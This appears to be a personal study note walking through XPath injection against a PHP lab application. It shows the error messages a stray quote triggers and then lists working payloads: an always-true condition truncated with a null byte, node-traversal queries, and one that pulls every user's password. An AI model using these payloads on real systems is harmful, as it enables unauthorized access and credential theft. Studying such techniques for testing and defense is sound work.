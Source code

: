 ```yaml
---
tags: xml
---
```


Here the code uses the user’s input inside and XPath expression. The easiest way to think of it is that it’s similar to an SQL injection.

If we are lucky, we can get something like this upon injecting a singe quote:

```
### **Warning**: SimpleXMLElement::xpath(): Invalid predicate in **/var/www/index.php** on line **22**  
  
**Warning**: SimpleXMLElement::xpath(): xmlXPathEval: evaluation failed in **/var/www/index.php** on line **22**  
  
**Warning**: Variable passed to each() is not an array or object in **/var/www/index.php** on line **23**
```

Luckily, XPath is very similar to SQL in the way of exploitation too.

```ad-note
We use NULL Bytes to comment out the rest of the code (`%00`)
```

This is a sample payload that gets us all results:

```
hacker' or 1=1]%00
```

We can try to find the child of the current node:

```
'%20or%201=1]/child::node()%00
```

This doesn’t yield much results. Let’s try climbing up the node hierarchy.

This can be done in this way:

```
hacker'%20or%201=1]/parent::*/child::node()%00
```

here we used `/parent::*` to get the parent node, it does say `*` but since there is only one parent we get the parent back immediately. 

This does return every user and every data for the user. Now we could also have used:

```
hacker']/parent::*/password%00
```

To only get the passwords.